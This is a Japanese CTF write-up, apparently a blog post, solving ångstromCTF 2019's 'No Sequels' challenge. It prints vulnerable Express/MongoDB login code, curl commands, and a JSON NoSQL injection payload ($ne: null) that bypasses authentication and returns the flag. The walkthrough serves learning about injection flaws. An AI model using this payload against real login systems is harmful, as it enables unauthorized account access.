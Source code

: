 ```yaml
---
title: No Sequels (ångstromCTF 2019)
date: 2019-04-25
tags:
- "CTF"
- "ångstromCTF 2019"
categories: web
---
```


{% asset_img problem.png %}

## 解説

MongoDB に対する NoSQL インジェクションの問題でした。

画面はこんな感じ。

{% asset_img process1.png %}

表示されているコードは以下の通り。

```js
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

...

router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;

    var user = req.body.username;
    var pass = req.body.password;

    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

とりあえず `curl` でリクエストを投げてみる。

```shell
λ curl -X POST https://nosequels.2019.chall.actf.co/login -d "username=aaa&password=bbb"
<!DOCTYPE html><html><head><title></title><link rel="stylesheet" href="/stylesheets/style.css"></head><body><h1>No authorization token was found</h1><h2></h2><pre></pre></body></html>
```

`No authorization token was found` が返ってきてしまいます。これはクッキーのせいです。

なので、まずは GET リクエストでクッキーを取得して、それを使って POST を投げます。

```shell
λ curl https://nosequels.2019.chall.actf.co/login -c cookie.txt
λ curl -X POST https://nosequels.2019.chall.actf.co/login -d "username=aaa&password=bbb" -b cookie.txt
Wrong username or password
```

これでリクエストが投げれるようになりました。NoSQL インジェクションのために次のような json ファイルを用意します。

```json
{ "username": { "$ne": null },
  "password": { "$ne": null }
}
```

あとはこれを curl で投げるだけです。

```shell
λ curl -d @payload.json -H "Content-Type: application/json" https://nosequels.2019.chall.actf.co/login -b cookie.txt
Found. Redirecting to /site
```

なぜかリダイレクトしようとしていますね。(次の問題のページだったりします)

```shell
λ curl -d @payload.json -H "Content-Type: application/json" https://nosequels.2019.chall.actf.co/login -b cookie.txt -L | grep actf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    87  100    27  100    60     35     78 --:--:-- --:--:-- --:--:--    78
100  1271  100  1271    0     0   1342      0 --:--:-- --:--:-- --:--:--  1342
<!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Application Access Page</title></head><body><h2>Here's your first flag: actf{no_sql_doesn't_mean_no_vuln}<br>Access granted, however suspicious activity detected. Please enter password for user<b> 'admin' </b>again, but there will be no database query.</h2><form method="post"><label>Enter Password:</label><input type="text" name="pass2"><br><input type="submit"></form><h4 style="color:red;"></h4><pre>router.post('/site', verifyJwt, function (req, res) {
```

ということでこれでフラグゲット。

## フラグ

`actf{no_sql_doesn't_mean_no_vuln}`

## 参考リソース

- [NoSQL Injection in MongoDB](https://zanon.io/posts/nosql-injection-in-mongodb)
- [curlコマンドでPOSTする](https://qiita.com/sensuikan1973/items/b2085a9cdc6d1e97e8f8)
- [curlでcookie情報を取得し利用する](https://morinohito.site/it/command/curl-cookie)